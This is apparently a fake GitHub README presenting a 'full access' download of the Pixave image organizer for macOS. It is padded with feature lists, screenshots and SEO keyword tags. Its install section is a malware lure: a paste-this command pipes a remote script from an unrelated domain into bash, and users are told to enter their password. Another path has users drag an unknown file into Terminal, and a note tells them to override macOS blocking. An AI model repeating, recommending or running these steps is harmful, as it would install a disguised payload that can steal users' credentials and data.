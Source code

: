 <p align="center">
  <img src="https://i.ibb.co/fVB5HRsX/1684337940-icon.webp" alt="Pixave macOS Banner" />
</p>

<h1 align="center">Pixave for macOS</h1>

<p align="center">
  🖼️ A powerful image organizer and inspiration manager built for creatives and designers.  
  <br><br>
  ✅ Supports macOS Sonoma, Ventura, Monterey  
  ✅ Apple Silicon & Intel Native  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/203" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20PIXAVE%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Pixave for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/C3dKDpSN/1670168303-1.jpg" alt="Pixave UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Pixave for macOS?

**Pixave for macOS** is a smart visual organizer that helps designers, illustrators, and content creators collect, manage, and reference all their images, assets, and inspiration. Whether you're working with photos, UI references, logos, or textures, Pixave gives you tools to tag, color-sort, group, and search instantly.

It supports a wide variety of file types, including PNG, JPG, PSD, GIF, and even animated content. With drag-and-drop export, automatic folder watching, and a built-in color palette tool, Pixave becomes an essential part of any creative workflow.

Works entirely offline and runs natively on Apple Silicon.

---

## ✅ Why Choose Pixave?

- 🏷️ **Tag-Based Organization & Smart Folders**  
- 🎨 **Color Search & Auto Palette Detection**  
- 🖇️ **Library Management for Multiple Projects**  
- 📁 **Folder Watching & Auto Import**  
- 🖼️ **Support for PSD, GIF, PDF, AI, and More**  
- 🚀 **Fast Preview & Export Tools**  
- 🍎 **Optimized for M1/M2/M3 Macs**  
- 💼 **Perfect for Moodboards and Reference Libraries**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/zTPBXKT7/1670168303-2.jpg" alt="Pixave Smart Folders View Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/HfD64jdr/1670168304-3.jpg" alt="Pixave Tag + Color Search Screenshot" />
</p>

---

## 🚀 Key Features

- Drag-and-drop interface for adding and exporting images  
- Visual browser with zoom, grid, and list views  
- Built-in palette extractor for any image  
- Custom tags and metadata  
- Timeline view for organizing chronologically  
- Library sync across projects (manual, offline)  
- Minimal CPU and RAM usage  
- Native support for Apple Silicon

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow the app manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Image+Organizer+Asset+Manager-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Color+Tag+Reference+Tool-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Pixave – Organize Your Visual World

Thanks for using **Pixave for macOS**.  
Built for visual thinkers and creators.

---

## 🧭 Usage Context

Pixave is intended for local asset curation, design research, and content library building.  
It works fully offline and respects user privacy.

No telemetry. No sync. Just your visual world – organized.

---

## 🔍 Tags

```text
pixave for mac download, visual asset manager macos, tag based image organizer mac, pixave color palette extractor mac, creative library tool macbook, moodboard reference app for mac, pixave m1 native version mac, inspiration collection tool macos, designer image curation software mac, smart folders and tags pixave mac, organize image library macbook pro, pixave for mac full version download, offline visual library manager mac, best image catalog app for mac, color based image filter mac pixave
